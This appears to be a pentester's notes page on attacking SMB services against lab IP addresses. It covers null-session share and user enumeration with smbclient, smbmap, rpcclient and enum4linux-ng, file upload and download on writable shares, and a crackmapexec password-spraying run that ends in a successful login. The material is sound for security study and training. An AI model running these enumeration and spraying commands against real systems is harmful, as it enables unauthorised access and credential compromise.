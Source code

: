 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# SMB

## Misconfigurations

### Anonymous Authentication

If an SMB server does not require a username and password - or valid credentials have been acquired - the following information can be found:

* shares
* usernames
* groups
* permissions
* policies
* services

## File Share

Using [smbclient.md](../../tooling/smbclient.md "mention"), we can display a list of the server's shares with the option `-L`, and using the option `-N`, we tell smbclient to use the **null** session.

```bash
clue@machine[~]$ smbclient -N -L //10.129.14.128

        Sharename       Type      Comment
        -------      --     -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        notes           Disk      CheckIT
        IPC$            IPC       IPC Service (DEVSM)
SMB1 disabled no workgroup available
```

[smbmap.md](../../tooling/smbmap.md "mention") is another tool that helps us enumerate network shares and access associated permissions. An advantage of smbmap is that it provides a list of permissions for each shared folder.

```bash
clue@machine[~]$ smbmap -H 10.129.14.128

[+] IP: 10.129.14.128:445     Name: 10.129.14.128                                   
        Disk                                                    Permissions     Comment
        --                                                   ---------    -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       IPC Service (DEVSM)
        notes                                                   READ, WRITE     CheckIT
```

Using smbmap with the `-r` or `-R` (recursive) option, one can browse the directories:

```bash
clue@machine[~]$ smbmap -H 10.129.14.128 -r notes

[+] Guest session       IP: 10.129.14.128:445    Name: 10.129.14.128                           
        Disk                                                    Permissions     Comment
        --                                                   ---------    -------
        notes                                                   READ, WRITE
        .\notes\*
        dr--r--r               0 Mon Nov  2 00:57:44 2020    .
        dr--r--r               0 Mon Nov  2 00:57:44 2020    ..
        dr--r--r               0 Mon Nov  2 00:57:44 2020    LDOUJZWBSG
        fw--w--w             116 Tue Apr 16 07:43:19 2019    note.txt
        fr--r--r               0 Fri Feb 22 07:43:28 2019    SDT65CB.tmp
        dr--r--r               0 Mon Nov  2 00:54:57 2020    TPLRNSMWHQ
        dr--r--r               0 Mon Nov  2 00:56:51 2020    WDJEQFZPNO
        dr--r--r               0 Fri Feb 22 07:44:02 2019    WindowsImageBackup
```

From the above example, the permissions are set to `READ` and `WRITE`, which one can use to upload and download the files.

```bash
clue@machine[~]$ smbmap -H 10.129.14.128 --download "notes\note.txt"

[+] Starting download: notes\note.txt (116 bytes)
[+] File output to: /htb/10.129.14.128-notes_note.txt
```

```bash
clue@machine[~]$ smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"

[+] Starting upload: test.txt (20 bytes)
[+] Upload complete.
```

## Remote Procedure Call

[rpcclient.md](../../tooling/rpcclient.md "mention") can be used - even with NULL sessions - to enumerate a workstation or Domain Controller.

```bash
clue@machine[~]$ rpcclient -U'%' 10.10.110.17

rpcclient $> enumdomusers

user:[mhope] rid:[0x641]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```

[enum4linux.md](../../tooling/enum4linux.md "mention") is another utility that supports null sessions, and it utilizes `nmblookup`, `net`, `rpcclient`, and `smbclient` to automate some common enumeration from SMB targets such as:

* Workgroup/Domain name
* Users information
* Operating system information
* Groups information
* Shares Folders
* Password policy information

```bash
clue@machine[~]$ ./enum4linux-ng.py 10.10.11.45 -A -C

ENUM4LINUX - next generation

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.10.11.45
[*] Username ......... ''
[*] Random Username .. 'noyyglci'
[*] Password ......... ''

 ====================================
|    Service Scan on 10.10.11.45     |
 ====================================
[*] Checking LDAP (timeout: 5s)
[-] Could not connect to LDAP on 389/tcp: connection refused
[*] Checking LDAPS (timeout: 5s)
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB (timeout: 5s)
[*] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS (timeout: 5s)
[*] SMB over NetBIOS is accessible on 139/tcp

 ===================================================                            
|    NetBIOS Names and Workgroup for 10.10.11.45    |
 ===================================================                                                                                         
[*] Got domain/workgroup name: WORKGROUP
[*] Full NetBIOS names information:
- WIN-752039204 <00> -          B <ACTIVE>  Workstation Service
- WORKGROUP     <00> -          B <ACTIVE>  Workstation Service
- WIN-752039204 <20> -          B <ACTIVE>  Workstation Service
- MAC Address = 00-0C-29-D7-17-DB
...
 ========================================
|    SMB Dialect Check on 10.10.11.45    |
 ========================================

<SNIP>
```

## Brute-Forcing

### Using CrackMapExec

[crackmapexec.md](../../tooling/crackmapexec.md "mention") allows attackers to target multiple IPs, using numerous users and passwords. To perform a password spraying attack against one IP, use the option `-u` to specify a file with a user list and `-p` to provide a password.

```bash
clue@machine[~]$ crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\Administrator:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\jrodriguez:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\admin:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\eperez:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\amone:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\fsmith:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\tcrash:Company01! STATUS_LOGON_FAILURE 

<SNIP>

SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\jurena:Company01! (Pwn3d!) 
```
